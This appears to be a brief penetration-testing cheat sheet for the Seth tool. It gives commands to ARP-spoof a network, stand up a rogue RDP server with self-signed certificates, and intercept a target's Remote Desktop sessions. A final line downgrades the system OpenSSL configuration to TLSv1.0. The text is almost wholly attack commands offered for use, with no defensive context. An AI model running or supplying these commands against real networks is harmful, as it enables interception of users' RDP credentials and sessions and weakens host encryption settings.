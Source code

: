 ### source
https://github.com/SySS-Research/Seth  

### RDP spoofing
```
./seth.sh eth0 <attackerIp> <targetIp> <gatewayIp>
```

### create local RDP server with self generated certificates
```
openssl genrsa -des3 -out certificate.key 4096
openssl req -new -key certificate.key -out certificate.csr
openssl x509 -req -days 365 -in certificate.csr -signkey certificate.key -out certificate.crt
```

### start RDP server
```
python3 seth.py -c certificate.crt -k certificate.key <targetIp>
```

### if SSL error occurs - you might need to downgrade the protocol version
```
sed -i 's/TLSv1.2/TLSv1.0/' -i /etc/ssl/openssl.cnf
```

